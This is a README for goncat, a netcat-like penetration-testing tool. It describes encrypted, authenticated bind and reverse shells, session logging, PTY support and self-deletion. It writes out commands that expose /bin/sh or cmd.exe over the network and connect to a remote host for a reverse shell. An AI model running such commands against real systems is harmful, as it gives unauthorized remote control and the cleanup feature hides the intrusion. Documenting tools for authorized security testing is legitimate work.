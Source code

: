 # goncat

goncat is a netcat-like tool you can use to create bind or reverse shells.
It contains a few extra features that I missed from netcat.
First, goncat supports encryption with mutual authentication
so you don't have to write on one page of your pentest report that administrative access to servers without encryption or authentication is a problem
while writing on the next page how you did exactly that.
Second, it can create log files of your sessions so you can later see and show exactly what you did.
Third, it has cross-platform PTY support for your convenience.
Finally, it can clean up after itself so you don't leave your binaries behind when you are done.

## Install

Clone this repository and run `make build` to build binaries for Linux, Windows and MacOS.
Downloads will be made available in the [release section](https://github.com/DominicBreuker/goncat/releases)
once this tool is out of alpha and the interface is stable.

## Getting started

Akin to netcat, goncat allows to bind a socket or can be used to connect to one.
There is only one binary combining all features and it works cross-platform.
For example, you can do the following things:
- Raw data transfers: `goncat listen --port 12345` to listen on port 12345,
  then from somewhere else `goncat connect --host 11.22.33.44 --port 12345` to connect. 
  Whatever you type on one end of the connection will be sent to the other.
- Bind/reverse shells: `goncat listen --exec /bin/sh --port 12345` to expose a shell on port 12345,
  then on the other side `goncat connect --host 11.22.33.44 --port 12345`
- Shells with encryption, PTY support and logging: `goncat listen --port 12345 --ssl --key secret --pty --log /tmp/session.log` to start a listener on port 12345,
  which logs the session to a file.
  Then on the remote side run `goncat.exe connect --host 11.22.33.44 --port 12345 --exec cmd.exe --ssl --key secret --pty`
  to get a fully interactive reverse shell, encrypted and authenticated with your password `secret`.

## Features

goncat provides two commands.
With `goncat listen` you launch a server that listens on a `--port` and optionally on a specific IP
specified with `--host` (default is any).
`goncat connect` launches a client which connects to a `--host` and `--port`.
By default goncat attaches to your stdin and stdout but you can pass `--exec` on either side
to launch an executable and attach to that.
Think of all this as the same you would usually do with `nc`, `ncat` and the like.

In addition to these basic features, there is:
- Encryption: you can add `--ssl` on both ends to ensure all traffic is encrypted.
- Authentication: on top of `--ssl` you can add `--key mypassword` on both ends.
  This way they both generate RSA keys derived from the shared password used for mutual TLS authentication.
- Logging: use `--log` to make goncat log all traffic sent over the wire to a local log file.
  For example, you can use that to document everything you did through a reverse shell.
- PTY support: add `--pty` on both ends to enable pseudoterminal support.
  Only makes sense if you expose shells with `--exec`.
  Works on Linux, Windows and MacOS.
  goncat handles all the details automatically, so there is no need for `stty raw -echo` or row and column size adjustments.
  It also restores your terminal when the connection terminates.
- Cleanup: you can pass `--cleanup` to make goncat delete itself on process termination.
  This works well on UNIX systems but Windows is tricky.
  Currently goncat launches a cmd-based cleanup job that runs 5 seconds after it terminated
  and marks the file for deletion on the next reboot just in case that job fails.
